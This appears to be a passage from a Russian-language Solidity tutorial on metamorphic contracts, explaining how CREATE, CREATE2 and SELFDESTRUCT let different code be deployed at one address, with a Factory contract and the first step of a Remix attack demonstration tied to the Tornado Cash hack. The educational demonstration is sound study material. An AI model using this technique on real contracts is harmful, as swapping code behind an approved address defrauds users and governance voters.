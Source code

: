 Речь идет о хорошо известной уязвимости: комбинация `CREATE` и `CREATE2` в сочетании с `SELFDESTRUCT` позволяет развернуть на одном и том же адресе **разные** контракты. Именно этот метод использовали при [взломе Tornado Cash](https://coinsbench.com/understanding-soliditys-create-create2-with-tornado-cash-1m-hack-01f8c147e5c7), когда был украден $1M.  

Это также касается **метаморфических контрактов**.   

### Демонстрация атаки  

Есть [репозиторий](https://github.com/ManaanAnsari/solidity-metamorphic-contracts-example/blob/main/test/MetamorphicContract.t.sol), в котором повторяется подобная атака. Я немного изменил этот код, чтобы можно было проверить его в Remix, ниже мы его разберем чуть подробнее:

Контракт фабрики:  
```solidity
contract Factory {
    function createFirst() public returns (address) {
        return address(new First());
    }

    function createSecond(uint256 _number) public returns (address) {
        return address(new Second(_number));
    }

    function kill() public {
        selfdestruct(payable(address(0)));
    }
}
```
Эта фабрика создает контракты **с идентичными адресами, но разным кодом**. 😈  

Шаг 1. Деплоим `MetamorphicContract` и вызываем функцию `firstDeploy`:

```solidity
function firstDeploy() external {
    factory = new Factory{salt: keccak256(abi.encode("evil"))}();
    first = First(factory.createFirst());

    emit FirstDeploy(address(factory), address(first));

    first.kill();
    factory.kill();
}
```
Этот вызов:  
- Деплоит фабрику и первую версию контракта.  
- Уничтожает их сразу после развертывания.  
- Логирует их адреса.
- Уничтожает оба контракта.

Результат в Remix:  
![first-deploy-logs](./img/first-deploy-logs.png)  
